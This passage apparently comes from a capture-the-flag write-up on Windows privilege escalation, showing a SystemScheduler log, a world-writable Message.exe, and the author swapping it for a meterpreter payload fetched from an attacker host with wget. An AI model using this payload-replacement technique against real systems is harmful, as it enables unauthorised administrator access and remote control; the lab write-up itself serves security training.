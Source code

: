 ```
08/04/19 15:11:33,Process Ended. PID:468,ExitCode:4,Message.exe (Administrator)
08/04/19 15:12:00,Event Started Ok, (Administrator)
08/04/19 15:12:33,Process Ended. PID:2244,ExitCode:4,Message.exe (Administrator)
08/04/19 15:13:00,Event Started Ok, (Administrator)
08/04/19 15:13:33,Process Ended. PID:1700,ExitCode:4,Message.exe (Administrator)
08/04/19 16:43:00,Event Started Ok,Can not display reminders while logged out. (SYSTEM_svc)*
08/04/19 16:44:01,Event Started Ok, (Administrator)
08/04/19 16:44:05,Process Ended. PID:2228,ExitCode:1,Message.exe (Administrator)
08/04/19 16:45:00,Event Started Ok, (Administrator)
08/04/19 16:45:20,Process Ended. PID:2640,ExitCode:1,Message.exe (Administrator)
08/04/19 16:46:00,Event Started Ok, (Administrator)
......
```

There is a file that keeps being executed periodically named "Message.exe". This file is present in the parent directory. Let's take a look at the permissions of this file :  
```
PS > Get-Acl Message.exe


    Directory: C:\Program Files (x86)\SystemScheduler


Path                                    Owner                                   Access
----                                    -----                                   ------
Message.exe                             BUILTIN\Administrators                  Everyone Allow  Modify, Synchronize...
```

We see that everyone can modify this file. Let's generate another meterpreter payload .exe file and replace Message.exe with it. I just generated the same payload as before with 
[msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) but I changed the listening port to 4244. Then I replaced Message.exe :  
```
PS > move Message.exe Message.exe.bak
PS > wget 10.14.31.20/Message.exe -outfile Message.exe
PS > ls


    Directory: C:\Program Files (x86)\SystemScheduler


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
d----        10/15/2022  12:12 PM            Events
-a---         5/17/2007   1:47 PM       1150 alarmclock.ico
-a---         8/31/2003  12:06 PM        766 clock.ico
-a---         8/31/2003  12:06 PM      80856 ding.wav
-a---          8/4/2019   4:36 AM         60 Forum.url
-a---          1/8/2009   7:21 PM    1637972 libeay32.dll
-a---        11/15/2004  11:16 PM       9813 License.txt
-a---        10/15/2022  10:43 AM       1496 LogFile.txt
-a---        10/15/2022  10:44 AM       3760 LogfileAdvanced.txt
-a---        10/15/2022  12:12 PM      73802 Message.exe
-a---         3/25/2018  10:58 AM     536992 Message.exe.bak
-a---         3/25/2018  10:59 AM     445344 PlaySound.exe
-a---         3/25/2018  10:58 AM      27040 PlayWAV.exe
-a---          8/4/2019   3:05 PM        149 Preferences.ini
-a---         3/25/2018  10:58 AM     485792 Privilege.exe
-a---         3/24/2018  12:09 PM      10100 ReadMe.txt
-a---         3/25/2018  10:58 AM     112544 RunNow.exe
-a---         3/25/2018  10:59 AM      40352 sc32.exe
-a---         8/31/2003  12:06 PM        766 schedule.ico
-a---         3/25/2018  10:58 AM    1633696 Scheduler.exe
```